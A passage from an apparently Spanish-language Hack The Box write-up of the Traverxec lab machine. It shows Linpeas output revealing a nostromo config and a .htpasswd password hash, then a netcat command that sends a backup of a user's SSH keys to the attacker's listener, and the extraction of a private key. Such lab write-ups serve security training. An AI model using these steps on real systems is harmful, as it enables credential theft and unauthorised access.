 Revisando todo lo que nos arroja `Linpeas` encontramos información relevante en el archivo `nhttpd.conf` y una contraseña en el archivo `.htpasswd`.

```bash
-rw-r--r-- 1 root bin 498 Oct 25  2019 /var/nostromo/conf/nhttpd.conf
Reading /var/nostromo/conf/nhttpd.conf
serveradmin             david@traverxec.htb        
htpasswd                /var/nostromo/conf/.htpasswd 
homedirs                /home
homedirs_public         public_www

-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
Reading /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Ahora nos dirigimos al directorio `home/david/public_www` y encontramos lo siguiente

```bash
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Procedemos a enviar el archivo `backup-ssh-identity-files.tgz` con netcat a nuestra máquina. 

Para realizar lo anterior, primero iniciamos una sesión en netcat y nos quedamos en modo escucha de la siguiente forma

```bash
┌─[✗]─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvp 9091 > backup-ssh-identity-files.tgz
listening on [any] 9091 ...
```

Y en la máquina que estamos atacando debemos transferir el archivo de la siguiente forma

```bash
www-data@traverxec:/usr/bin$ nc 10.10.14.21 9091 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

Una vez ya tengamos el archivo `backup-ssh-identity-files.tgz` en nuestra máquina, vamos a descomprimirlo para ver su contenido

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]                      
└──╼ $gunzip backup-ssh-identity-files.tgz 
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]        
└──╼ $ls                         
backup-ssh-identity-files.tar  cve-2019-16278.py  linpeas.sh       
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]         
└──╼ $tar xfv backup-ssh-identity-files.tar                                                   
home/david/.ssh/                 
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa           
home/david/.ssh/id_rsa.pub

```
